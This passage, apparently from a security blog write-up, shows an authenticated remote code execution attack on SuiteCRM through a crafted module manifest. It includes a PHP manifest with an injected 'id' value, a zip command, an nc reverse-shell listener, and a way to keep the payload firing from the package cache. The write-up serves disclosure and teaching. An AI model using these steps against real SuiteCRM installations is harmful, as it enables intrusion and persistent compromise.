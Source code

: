 ```PHP

	$installdefs = array(
	'id' => 'patch #{1}',
	'copy' => array(
		array(
		'from' => 'upload/nothing',
		'to' => 'upload/nothing',
		),
	),
	);
```

We will zip our malicious manifest into a zip file so that it passes those validations
`zip evil.zip manifest.php`

We will start a listener to catch our reverse shell
`nc -lvnp 1337`

Once we upload our package we see a reverse shell come in!

![Image](/images/2023-11-14-SuiteCRM/Pasted-image-20230807013213.png)


Back on SuiteCRM, we can see that our package has been staged but has not been installed yet. We can click Delete Package to delete the package from the cache or we can leave the patch in the cache so that our payload is executed every time this page is loaded.

![Image](/images/2023-11-14-SuiteCRM/Screenshot-from-2023-08-07-01-32-55.png)


This entire process can be scripted out to shell a SuiteCRM installation as long as an admins credentials or session cookie is provided.

![Image](/images/2023-11-14-SuiteCRM/exploit.gif)
